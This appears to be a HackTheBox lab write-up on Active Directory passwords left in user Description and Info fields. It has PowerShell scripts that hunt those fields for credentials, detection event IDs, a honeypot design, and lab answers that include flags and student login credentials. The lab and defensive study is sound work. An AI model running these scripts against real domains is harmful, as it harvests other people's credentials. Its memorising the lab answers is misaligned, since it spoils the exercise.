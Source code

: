 ```yaml
---
title: "27. Credentials in Object Properties"
authors: [asalucci]
tags: [HackTheBox, CTF, trustinveritas, alessandro]
published: 2025-04-23
categories: ["SOC", "Analyst", "Write", "Up", "HackTheBox"]
---
```


import RevealFlag from '@site/src/components/RevealFlag';

# Credentials in Object Properties

## Description

Objects in Active Directory have a plethora of different properties; for example, a `user` object can contain properties that contain information such as:

- Is the account active
- When does the account expire
- When was the last password change
- What is the name of the account
- Office location for the employee and phone number

When administrators create accounts, they fill in those properties. A common practice in the past was to add the user's (or service account's) password in the `Description` or `Info` properties, thinking that administrative rights in AD are needed to view these properties. However, `every` domain user can read most properties of an object (including `Description` and `Info`).

---

## Attack

A simple PowerShell script can query the entire domain by looking for specific search terms/strings in the `Description` or `Info` fields:

```powershell
Function SearchUserClearTextInformation
{
    Param (
        [Parameter(Mandatory=$true)]
        [Array] $Terms,

        [Parameter(Mandatory=$false)]
        [String] $Domain
    )

    if ([string]::IsNullOrEmpty($Domain)) {
        $dc = (Get-ADDomain).RIDMaster
    } else {
        $dc = (Get-ADDomain $Domain).RIDMaster
    }

    $list = @()

    foreach ($t in $Terms)
    {
        $list += "(`$_.Description -like `"*$t*`")"
        $list += "(`$_.Info -like `"*$t*`")"
    }

    Get-ADUser -Filter * -Server $dc -Properties Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet |
        Where { Invoke-Expression ($list -join ' -OR ') } | 
        Select SamAccountName,Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet | 
        fl
}
```

We will run the script to hunt for the string `pass`, to find the password `Slavi123` in the `Description` property of the user `bonni`:

```powershell
PS C:\Users\bob\Downloads> SearchUserClearTextInformation -Terms "pass"

SamAccountName       : bonni
Enabled              : True
Description          : pass: Slavi123
Info                 : 
PasswordNeverExpires : True
PasswordLastSet      : 05/12/2022 15.18.05
```

![Get-ADDomain](img/Get-ADDomain.png)

---

## Prevention

We have many options to prevent this attack/misconfiguration:

- `Perform continuous assessments` to detect the problem of storing credentials in properties of objects.
- `Educate` employees with high privileges to avoid storing credentials in properties of objects.
- `Automate` as much as possible of the user creation process to ensure that administrators don't handle the accounts manually, reducing the risk of introducing hardcoded credentials in user objects.

---

## Detection

Baselining users behavior is the best technique for detecting abuse of exposed credentials in properties of objects. Although this can be tricky for regular user accounts, triggering an alert for administrators/service accounts whose behavior can be understood and baselined is easier. Automated tools that monitor user behavior have shown increased success in detecting abnormal logons. In the example above, assuming that the provided credentials are up to date, we would expect events with event ID [4624](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4624)/[4625](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4625) *(failed and successful logon)* and [4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4768) *(Kerberos TGT requested)*. Below is an example of [event ID 4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4768):

![4768](img/4768.png)

Unfortunately, the [event ID 4738](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4738) generated when a user object is modified does not show the specific property that was altered, nor does it provide the new values of properties. Therefore, we cannot use this event to detect if administrators add credentials to the properties of objects.

---

## Honeypot 🍯

Storing credentials in properties of objects is an excellent honeypot technique for not-very-mature environments. If struggling with basic cyber hygiene, then it is more likely expected to have such issues (storing credentials in properties of objects) in an AD environment. For setting up a honeypot user, we need to ensure the followings:

- The password/credential is configured in the `Description` field, as it's the easiest to pick up by any adversary.

- The provided password is fake/incorrect.

- The account is enabled and has recent login attempts.

- While we can use a regular user or a service account, service accounts are more likely to have this exposed as administrators tend to create them manually. In contrast, automated HR systems often make employee accounts (and the employees have likely changed the password already).

- The account has the last password configured 2+ years ago (makes it more believable that the password will likely work).

Because the provided password is wrong, we would primarily expect failed logon attempts; three event IDs ([4625](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4625), [4771](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4771), and [4776](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4776)) can indicate this. Here is how they look in our playground environment if an attacker is attempting to authenticate with the account `svc-iis` and a wrong password:

- [4625](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4625)

![4625](img/4625.png)

---

- [4771](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4771)

![4771](img/4771.png)

---

- [4776](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4776)

![4776](img/4776.png)

---

## Questions

### `1. Connect to the target and use a script to enumerate object property fields. What password can be found in the Description field of the bonni user?`

<RevealFlag>{`Slavi1234`}</RevealFlag>

```powershell
# Define keywords to search for in any user field
$keywords = @("pass", "pw", "eagle")

# AD text fields to scan (can be expanded)
$fieldsToCheck = @("Description", "Info", "DisplayName", "Title", "Department")

# Get all users from AD
$users = Get-ADUser -Filter * -Properties * -ErrorAction SilentlyContinue

# Store results
$results = @()

foreach ($user in $users) {
    foreach ($field in $fieldsToCheck) {
        $value = $user.$field
        if ($value -and ($keywords | Where-Object { $value.ToLower().Contains($_.ToLower()) })) {
            $matchedWords = ($keywords | Where-Object { $value.ToLower().Contains($_.ToLower()) }) -join ", "
            $results += [PSCustomObject]@{
                Timestamp   = (Get-Date).ToString("yyyy-MM-dd HH:mm:ss")
                SamAccount  = $user.SamAccountName
                Field       = $field
                Match       = $matchedWords
                Content     = $value.Trim()
            }
        }
    }
}

# Output results
if ($results.Count -gt 0) {
    $results | Sort-Object SamAccount, Field | Format-Table -AutoSize
} else {
    Write-Host "No matches found." -ForegroundColor Yellow
}
```

```powershell
Timestamp           SamAccount Field       Match Content
---------           ---------- -----       ----- -------
2025-04-24 00:01:06 bonni      Description pass  pass: <Password>
```

---

### `2. Using the password discovered in the previous question, try to authenticate to DC1 as the bonni user. Is the password valid?`

<RevealFlag>{`No`}</RevealFlag>

---

### `3. Connect to DC1 as 'htb-student:HTB_@cademy_stdnt!' and look at the logs in Event Viewer. What is the TargetSid of the bonni user?`

<RevealFlag>{`S-1-5-21-1518138621-4282902758-752445584-3102`}</RevealFlag>

![Event-ID-4771](img/Event-ID-4771.png)